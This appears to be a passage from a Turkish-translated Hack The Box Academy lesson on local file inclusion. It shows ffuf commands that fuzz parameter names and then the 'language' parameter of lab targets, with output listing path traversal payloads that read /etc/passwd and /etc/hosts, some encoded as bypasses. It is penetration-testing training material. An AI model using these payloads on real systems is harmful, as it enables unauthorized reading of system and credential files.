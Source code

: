 
# Automated Scanning

```shell-session
M1R4CKCK@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

Test ettiğimiz herhangi bir formla bağlantılı olmayan açık bir parametre belirledikten sonra, bu modülde tartışılan tüm LFI testlerini gerçekleştirebiliriz. Bu, LFI güvenlik açıklarına özgü olmayıp diğer modüllerde ele alınan çoğu web güvenlik açığı için de geçerlidir, çünkü açıkta kalan parametreler başka herhangi bir güvenlik açığına karşı da savunmasız olabilir.

**İpucu:** Daha hassas bir tarama için, taramamızı bu [bağlantıda](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters) bulunan en popüler LFI parametreleriyle sınırlayabiliriz.


## LFI wordlists

Bu tarama için kullanabileceğimiz bir dizi [LFI Kelime Listesi](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) vardır. İyi bir kelime listesi [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)'dir, çünkü çeşitli baypaslar ve ortak dosyalar içerir, bu nedenle aynı anda birkaç test çalıştırmayı kolaylaştırır. Bu kelime listesini, modül boyunca test ettiğimiz `?language=` parametresini bulanıklaştırmak için aşağıdaki gibi kullanabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
```